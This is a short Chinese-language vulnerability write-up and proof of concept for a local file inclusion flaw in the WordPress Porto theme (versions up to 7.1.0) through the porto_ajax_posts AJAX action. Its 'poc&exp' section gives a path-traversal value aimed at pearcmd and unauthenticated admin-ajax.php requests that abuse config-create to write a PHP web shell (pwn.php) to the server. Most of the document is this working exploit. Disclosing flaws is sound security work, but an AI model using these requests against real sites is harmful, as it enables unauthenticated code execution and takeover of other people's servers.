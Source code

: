 

影响描述

  WordPress的Porto主题在7.1.0之前（包括7.1.0）的所有版本中都容易通过“Porto_ajax_posts”功能被本地文件包含。这使得未经身份验证的攻击者有可能在服务器上包含并执行任意文件，从而允许执行这些文件中的任何PHP代码。这可以用来绕过访问控制，获取敏感数据，或者在php文件类型可以上传和包含的情况下实现代码执行。

差异函数porto_ajax_posts文件：inc\functions\post.php



poc&exp

重现步骤：

1. 创建具有slideshow_type值的帖子：`../../../../../../../../../usr/local/lib/php/pearcmd`
2. 发送请求

无需登录即可访问：`<Host>/wp-admin/admin-ajax.php?action=porto_ajax_posts&post_type=post&post_layout=full&+config-create+/&/<?=`$_GET[0]`?>+/var/www/html/pwn.php`

或

无需登录即可访问：`<Host>/wp-admin/admin-ajax.php?action=porto_ajax_posts&post_type=post&post_layout=full&+config-create+/&/<?=`$_GET[0]`?>+/var/www/html/pwn.php&nonce={{porto_nonce}}`





视频

<video src="cve-2024-3806.mp4"></video>
